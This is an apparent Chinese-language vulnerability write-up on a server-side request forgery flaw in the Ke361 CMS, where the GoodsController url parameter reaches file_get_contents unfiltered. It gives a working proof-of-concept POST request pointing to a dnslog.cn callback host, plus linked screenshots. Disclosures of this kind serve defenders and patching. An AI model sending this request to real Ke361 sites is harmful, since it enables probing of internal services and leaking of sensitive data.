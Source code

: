 # Ke361 GoodsController.class.php SSRF漏洞

## 漏洞描述

Ke361 GoodsController.class.php URL参数存在 SSRF漏洞，通过漏洞可以获取敏感信息

## 漏洞影响

<a-checkbox checked>Ke361</a-checkbox></br>

## 环境搭建

<a-checkbox checked>https://gitee.com/jcove/ke361</a-checkbox></br>

## 漏洞复现

CMS产品页面

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1634130579841-e981591e-46f6-4aa8-bc68-6fe39d1e4e35.png)

存在漏洞的文件为 `Application/Home/Controller/GoodsController.class.php`

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1634173817836-6c70b428-ad33-4f61-9c5f-94728c906ff2.png)

URL参数无任何过滤，传入 file_get_contents函数，造成SSRF漏洞，构造请求

```php
POST /index.php?s=/Goods/ajGetGoodsDetial
 
url=http://6si2gt.dnslog.cn
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1634173848355-4f9cb3d2-7e5e-4b6d-8ca7-c7fbacb844e8.png)

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1634173865625-05a6c6ce-d427-498e-80c0-ef8b6ec232a3.png)